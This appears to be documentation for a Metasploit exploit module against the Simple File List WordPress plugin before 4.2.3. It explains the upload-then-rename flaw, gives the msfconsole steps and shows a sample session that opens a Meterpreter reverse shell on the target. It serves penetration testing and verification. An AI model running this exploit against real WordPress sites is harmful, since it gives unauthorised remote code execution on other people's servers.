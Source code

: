 ## Vulnerable Application

The Simple File List (simple-file-list) plugin before 4.2.3 for WordPress allows remote, unauthenticated attackers to
upload files within a controlled list of extensions. However, the rename function does not conform to the file extension
restrictions, thus allowing arbitrary PHP code to be uploaded first as a PNG file then renamed to use the PHP extension
and executed.

Download simpe-file-list [4.2.2](https://downloads.wordpress.org/plugin/simple-file-list.4.2.2.zip) or another
version < 4.2.3 from [here](https://wordpress.org/plugins/simple-file-list/advanced/).

Install and enable the plugin, no additional configuration is required.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/wp_simple_file_list_rce`
1. Do: `set rhosts [ip]`
1. Do: `set lhost [ip]`
1. Do: `run`
1. You should get a shell.

## Options

## Scenarios

### Simple File List 4.2.2 on Wordpress 5.5.3 on Debian 10.6

```
msf > use exploit/multi/http/wp_simple_file_list_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/wp_simple_file_list_rce) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf exploit(multi/http/wp_simple_file_list_rce) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(multi/http/wp_simple_file_list_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Attempting to upload the PHP payload as a PNG file
[+] PNG payload successfully uploaded
[*] Attempting to rename fkzUTKAp.png to fkzUTKAp.php
[+] Successfully renamed fkzUTKAp.png to fkzUTKAp.php
[*] Triggering shell
[*] Sending stage (39282 bytes) to 2.2.2.2
[*] Meterpreter session 4 opened (1.1.1.1:4444 -> 2.2.2.2:38366) at 2020-11-25 09:55:37 -0500
[+] Deleted fkzUTKAp.php

meterpreter > getuid
Server username: daemon (1)
meterpreter > sysinfo
Computer    : debian
OS          : Linux debian 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64
Meterpreter : php/linux
meterpreter >
```
